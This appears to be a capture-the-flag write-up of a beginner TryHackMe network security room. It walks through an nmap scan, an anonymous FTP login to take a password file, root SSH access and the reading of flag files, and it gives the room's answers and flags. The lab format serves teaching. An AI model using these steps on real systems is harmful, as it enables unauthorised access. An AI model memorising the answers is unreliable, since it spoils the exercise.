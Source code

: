 ```yaml
---
title:  Network Security 
author: CYB3RM3
name: CYB3RM3 | Network Security 
date: 2022-05-03 21:42:57 +0100
categories: [TryHackMe, RedTeam]
tags: [Red Team, Network]
---
```


Learn about network security, understand attack methodology, and practice hacking into a target server.

THM Room [https://tryhackme.com/room/intronetworksecurity](https://tryhackme.com/room/intronetworksecurity)


## TASK 1 : Introduction
### What type of firewall is Windows Defender Firewall?
"Host firewall: Unlike the firewall appliance, a hardware device, a host firewall is a program that ships as part of your system, or it is a program that you install on your system. For instance, MS Windows includes Windows Defender Firewall, and Apple macOS includes an application firewall; both are host firewalls."

Answer : host firewall

## TASK 2 : Methodology 
### During which step of the Cyber Kill Chain does the attacker gather information about the target? 
Answer : recon

## TASK 3 : Practical Example of Network Security 
###  What is the password in the secret.txt file?

Sanned the target IP with nmap :

```console
root@ip-10-10-141-49:~# nmap 10.10.244.107

Starting Nmap 7.60 ( https://nmap.org ) at 2022-05-03 20:37 BST
Nmap scan report for ip-10-10-244-107.eu-west-1.compute.internal (10.10.244.107)
Host is up (0.0030s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:B7:A6:3A:45:FD (Unknown)
```
{: .nolineno }

Then tried to log to the FTP with anonymous. I found a secret.txt file with a password :

```console
root@ip-10-10-141-49:~# ftp 10.10.244.107
Connected to 10.10.244.107.
220 (vsFTPd 3.0.3)
Name (10.10.244.107:root): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp        425351 Apr 06 11:22 2680-0.txt
-rw-r--r--    1 ftp      ftp           356 Apr 06 11:22 2680.epub
-rw-r--r--    1 ftp      ftp        251857 Apr 06 11:22 55317-0.txt
-rw-r--r--    1 ftp      ftp           358 Apr 06 11:22 55317.epub
-rwxr-xr-x    1 ftp      ftp           214 Apr 06 11:22 backup.sh
-rw-r--r--    1 ftp      ftp            23 Apr 06 11:22 secret.txt
226 Directory send OK.
ftp> get secret.txt
local: secret.txt remote: secret.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for secret.txt (23 bytes).
226 Transfer complete.
23 bytes received in 0.00 secs (35.0405 kB/s)
ftp> 
```
{: .nolineno }

 In another terminal :

```console
root@ip-10-10-141-49:~# cat secret.txt 
password: ABC789xyz123
```
{: .nolineno }

Answer : ABC789xyz123

### What is the content of the flag.txt in the /root directory?

Connect via SSH with previously found password :

```console
root@ip-10-10-141-49:~# ssh root@10.10.244.107
The authenticity of host '10.10.244.107 (10.10.244.107)' can't be established.
ECDSA key fingerprint is SHA256:IFP+sTfHTDm72Ta2zfK9XjKASr30+ya4ic/ApEIziio.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.244.107' (ECDSA) to the list of known hosts.
root@10.10.244.107's password: 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-107-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue  3 May 19:38:54 UTC 2022

  System load:  0.15              Processes:             120
  Usage of /:   66.2% of 6.53GB   Users logged in:       0
  Memory usage: 25%               IPv4 address for eth0: 10.10.244.107
  Swap usage:   0%

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Thu Apr  7 07:53:28 2022 from 10.20.30.1
root@beginner-net-sec:~# ls
flag.txt  snap
root@beginner-net-sec:~# cat flag.txt 
THM{FTP_SERVER_OWNED}
root@beginner-net-sec:~# 
```
{: .nolineno }

Answer : THM{FTP_SERVER_OWNED}

### What is the content of the flag.txt in the /home/librarian directory?

Looking in the other user directory :

```console
root@beginner-net-sec:~# cd /home/librarian/
root@beginner-net-sec:/home/librarian# ls
flag.txt
root@beginner-net-sec:/home/librarian# cat flag.txt 
THM{LIBRARIAN_ACCOUNT_COMPROMISED}
```
{: .nolineno }

Answer : THM{LIBRARIAN_ACCOUNT_COMPROMISED}